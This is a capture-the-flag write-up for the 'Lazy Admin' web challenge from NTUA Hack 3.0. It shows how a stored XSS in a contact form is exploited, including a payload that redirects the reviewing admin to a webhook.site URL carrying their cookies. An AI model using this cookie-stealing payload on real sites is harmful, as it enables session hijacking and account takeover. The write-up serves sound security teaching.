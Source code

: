 +++
title = 'Ntua Hack 3.0: Lazy Admin'
date = 2024-12-16T18:41:26+02:00
draft = false
showpage = true
+++

----
Github Repo with official writeups: [NTUAH4CK-3.0](https://github.com/Thread-in-the-Needle/NTUAH4CK-3.0) by Thread-in-the-Needle

----
### Description
Admin doesn't take security seriously when reviewing user messages. Can you exploit this? Flag format: NH4CK{a-g}

Tags: web

----

Navigate to the website and start by checking the `/contact` page.
![alt](lab1.png)
The description makes it obvious that something is vulnerable at the message area.

![alt](lab2.png)

When we send a dummy reguest we get a `Request Successful` message. We can't see anything reflected to our end and probably the message is sent to the administrator to open and read. 

So for example a payload like `<img src=1 onerror=alert()>` would pop up an alert box to the admin when opening the message. But this way we cannot exploit the vulnerability to, maybe, steal his account.

Another way would be to use a server or something like `webhook.com` and redirect the admin there to steal his cookies.

```js
<img src=1 onerror="location.href='https://webhook.site/<id>/?c=' + document.cookies">
```

We got the request to `webhook.com` which means admin open the message, got redirected and gave away his cookies. Now we could sign use them to login to his account without any restrictions.

![alt](lab3.png)

The flag is printed instead of his cookies.